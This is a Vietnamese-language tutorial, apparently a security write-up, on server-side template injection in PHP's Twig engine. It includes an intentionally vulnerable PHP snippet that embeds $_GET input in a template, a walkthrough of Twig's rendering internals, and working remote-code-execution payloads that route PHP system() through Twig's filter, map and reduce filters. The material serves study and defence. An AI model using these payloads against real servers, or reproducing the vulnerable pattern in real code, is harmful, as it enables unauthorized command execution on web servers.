# Twig SSTI

## SSTI.

- Server-side template injection xảy ra khi những nội dung được nhập vào từ phía người dùng được nhúng không an toàn vào template ở phía máy chủ. Bằng cách sử dụng các template độc hại, kẻ tấn công có thể làm lộ các thông tin nhạy cảm, thực thi mã tùy ý và kiểm soát hoàn toàn web server.

- Template engines là công cụ giúp chúng ta tách mã HTML thành các phần nhỏ hơn mà chúng ta có thể sử dụng lại trên nhiều tập tin HTML.

## Twig.

- Twig là một template engine cho PHP, được sử dụng trong rất nhiều framework khác nhau như Symfony, Drupal8, eZPublish, phpBB, Piwik, OroCRM,...

- Cài đặt:
	+ composer require "twig/twig:^3.0"
	+ git clone git://github.com/twigphp/Twig.git

- Trong Twig, sử dụng hai lọai kí hiệu, đó là  dùng để thực hiện các câu lệnh như vòng lặp hoặc điều kiện. {{ ... }} dùng để in ra kết quả của biến hoặc biểu thức ra màn hình.

### Variables.
```
_self : tham chiếu đến template hiện tại
_context : tham chiếu đến context hiện tại
_charset : tham chiếu đến charset hiện tại
```
- Lấy giá trị của biến và gán giá trị cho các biến.

```
{{ foo.bar }}
{{ foo['bar'] }}



```

### Filters.

- Filter trong twig giúp tùy biến kết quả dữ liệu được in ra màn hình. Các filter sẽ được ngăn cách với dữ liệu bằng dấu **|** .

```


{{ sizes|filter(v => v > 38)|join(', ') }}
{# output 40, 42 #}
```

### Control Structure.

```

    <ul>
        
            <li>{{ user.username|e }}</li>
        
    </ul>

```

### Comment.

```
{# note: comment here #}
```

### Expressions.

- Biểu thức toán học : +, -, /, %, //, * , **
- Biểu thức logic : and, or, not, (expr)

## SSTI in Twig.

### Code vuln.

```
<?php	
	require_once 'vendor/autoload.php';
	if(isset($_GET['name']) && !empty($_GET['name'])) {

		$inject  = $_GET['name'];

		$loader = new \Twig\Loader\ArrayLoader(['index.html' => '<h3>Hello '.$inject.'</h3>']);

		$twig = new \Twig\Environment($loader);

		echo $twig->render( 'index.html');
	}
	else{
		echo '<h3>Pls give a name prarameter !</h3>';
	}
?>
```

### Debug.



- Đầu tiên ta sẽ truyền vào biến name payload: {{ 7 * 7 }} và xem cách mà twig xử lý nó. 



- Mình sẽ đặt breakpoint tại hàm *render()* vì đây là hàm xử lý chính việc hiển thị kết quả ra màn hình.



- Sau khi đi vào trong hàm *render()* , việc đầu tiên nó làm chính là khởi tạo các tag ( option ) để phục vụ cho việc phân loại và xử lý dữ liệu đưa vào. 



- Khi việc phân loại các template hoàn thiện bước kế tiếp là quá trình twig tao ra một array *tokens*, bên trong array này sẽ chứa các phần tử *token* con chứa lần lượt các dữ liệu đã được phân loại phía trên và mõi *token* này bao gồm ba giá trị : *value*, *type*, *lineno* 



- Bạn còn nhớ những *token* phía trên chứ, nó có chứa một thuộc tính là *type* và twig sẽ dựa vào nó để tiếp tục phân loại các dữ liệu cho việc thực thi để in ra màn hình. Các dữ liệu có kiểu *text* sẽ được khởi tạo để in ra bằng hàm *TextNode*, và các dữ liệu có dạng *var* sẽ sử dụng hàm *PrintNode*.


- TextNode

- PrintNode



- Trước khi thực thi dữ liệu đưa vào , twig sẽ khởi tạo một array *nodes* để lưu trữ tất cả các dữ liệu và phân chia thành các phần như body, blocks, macros, display_start, display_end.



- Tiếp đến là quá trình trích xuất các dữ liệu trên và tạo thành một file php được lưu trong biến *source*.Các dữ liệu đưa ra màn hình sẽ được tạo ra bên trong *complieDisplay*, các hàm khác sẽ làm các nhiệm vụ riêng biệt cấu thành lên một file php hoàn chỉnh.


- File php sẽ có dạng như trên.



- Tiếp theo các dữ liệu trong file trên sẽ được đưa tới hàm eval để thực thi.

### Payload RCE.

1. Twig_array_filter.

- **filter** nhân đầu vào là các phần tử của một chuỗi hoặc một ánh xạ bằng cách sử dụng hàm mũi tên tự định nghĩa.

- Arguments:
	+ array: The sequence or mapping
	+ arrow: The arrow function

```


{{ sizes|filter(v => v > 38)|join(', ') }}
{# output 40, 42 #}
```


> array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array
> array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);

- array_filter() trong PHP duyệt qua mỗi value trong mảng và truyền tới hàm callback. Nếu hàm callback trả về true, thì value hiện tại của mảng được trả về. Nếu hàm callback không được cung cấp, thì tất cả đầu vào của mảng mà tương đương với FALSE sẽ bị xóa.

- Như vậy nếu dữ liệu ta truyền vào là một mảng thì khi đó nó sẽ là đối số trong hàm $arrow.



> Payload: {{ ['id']|filter("system") }}

2. Twig_array_map.

- Tương tự như *filter*, *map* cũng sử dụng đôi số là các phần tử trong chuỗi hay các mẳng để truyền vào hàm callback.

- Arguments:
	+ array: The sequence or mapping
	+ arrow: The arrow function 

```


{{ people|map(p => "#{p.first} #{p.last}")|join(', ') }}
{# outputs Bob Smith, Alice Dupond #}
```


- Ta có thể thấy hàm sẽ lặp trong array lấy ra key:value sau đó truyền làm đối số của $arrow , vì thế lúc này nó sẽ thực thi $arrow($k, $v) như một hàm và lưu kết quả với key tương ứng trong $r.

```
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
file_put_contents ( string $filename  , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```

- Payload:

```
{{["id"]|map("system")}}
```

3. Twig_array_reduce.

- **reduce** là giảm sự lặp đi lặp lại một chuỗi hoặc một ánh xạ thành một giá trị duy nhất bằng cách sử dụng hàm mũi tên.

- Arguments:
	+ array: The sequence or mapping
	+ arrow: The arrow function
	+ initial: The initial value

```


{{ numbers|reduce((carry, v) => carry + v) }}
{# output 6 #}

{{ numbers|reduce((carry, v) => carry + v, 10) }}
{# output 16 #}
```



> array_reduce ( $array, callback $function [, int $initial] );

- Hàm *array_reduce()*, tương tự như *array_filter* nó sẽ thực thi hàm $arrow với đối số là $array tuy nhiên nó có thêm một cái nữa là $initial- để đặt giá trị ban đầu gửi tới hàm.



> Payload : {{ [0,0]|reduce("system", "id")
